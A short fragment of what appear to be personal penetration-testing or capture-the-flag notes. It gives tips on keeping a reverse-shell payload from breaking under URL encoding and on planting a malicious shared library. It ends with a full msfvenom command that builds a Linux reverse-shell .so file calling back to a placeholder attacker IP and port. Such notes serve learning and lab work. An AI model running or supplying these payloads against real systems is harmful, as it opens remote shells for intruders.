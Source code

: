 Another great tip is, when we want to directly include a reverse shell to get executed, and want to know for sure that the payload is working without being screwed up by URL encoding. we can make sure there are no `+` or `=`, we can do that by adding extra spaces in between the characters like IppSec does here: _(and don't forget to try running it against yourself first as well)_
![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/66f569d7-13a7-4295-a7b4-3f18682ff285)

To test it on ourselves:
![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/2241fdf0-ce13-4586-8d37-714f465a592f)

`msfvenom` could have saved me the hassle of trying to get a properly working `libcounter.so` reverse shell, since I had to find out about`__attribute__((constructor))`
do:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf.so -o libcounter.so`



























